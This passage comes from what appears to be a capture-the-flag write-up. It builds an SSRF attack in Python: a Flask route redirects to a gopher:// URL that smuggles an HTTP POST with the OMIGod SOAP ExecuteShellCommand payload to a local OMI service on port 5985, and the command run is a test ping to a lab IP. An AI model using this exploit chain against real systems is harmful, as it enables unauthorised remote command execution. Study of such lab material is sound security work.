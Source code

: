 

Looking at that file, there's a `0x0d0a` or `\r\n` on the end:



    oxdf@parrot$ xxd test 
    00000000: 7465 7374 0d0a                           test..



This is important because it means I need to add two bytes to the
content length or it will be off, which will break things (this took a
bunch of troubleshooting to figure out).

#### OMIGod POC

To get the OMIGod POC into this, I'll grab the `DATA` variable from the
POC, replacing the command with `{}` to fill in later. I'll also create
a template for a `REQUEST`, with content length and body to populate
later (and the `DATA` template truncated here with a `...[snip]...` for
readability):



    DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" 
    ...[snip]...
    xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">    
             <p:command>{}</p:command>    
             <p:timeout>0</p:timeout>    
          </p:ExecuteShellCommand_INPUT>    
       </s:Body>    
    </s:Envelope>    
    """    
        
    REQUEST = """POST / HTTP/1.1\r
    Host: localhost:5985\r
    User-Agent: curl/7.74.0\r
    Content-Length: {length}\r
    Content-Type: application/soap+xml;charset=UTF-8\r
    \r
    {body}"""    



The HTTP headers need to have `\r\n` for each line, but Python on Linux
only treats newlines as `\n`, so I need to add the `\r`.

Now I'll update the route to pass the new redirect:



    @app.route('/')    
    def root():    
        cmd = "ping -c 1 10.10.14.6"    
        data = DATA.format(cmd)
        req = REQUEST.format(length=len(data)+2, body=data)
        enc_req = quote(req, safe='')
        return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)
